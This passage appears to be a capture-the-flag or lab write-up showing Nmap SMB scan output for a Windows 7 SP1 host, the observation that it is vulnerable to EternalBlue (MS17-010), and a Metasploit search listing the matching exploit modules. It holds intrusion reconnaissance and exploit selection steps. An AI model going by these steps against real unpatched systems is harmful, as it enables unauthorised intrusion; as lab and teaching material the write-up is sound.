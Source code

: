 ```
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-11-05T21:40:38-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-11-06T02:40:38
|_  start_date: 2021-11-06T02:12:24

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  5 22:40:43 2021 -- 1 IP address (1 host up) scanned in 77.09 seconds

```

We can see from this that the machine has SMB running - with the OS: Windows 7 Service Pack 1. The SMBv1 server in this OS is vulnerable to Eternal Blue, or CVE-2017-0144 [CVE link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144).  This vulnerability was published in MS security bulletin **ms17-010** [MS Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)

## Metasploit

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```
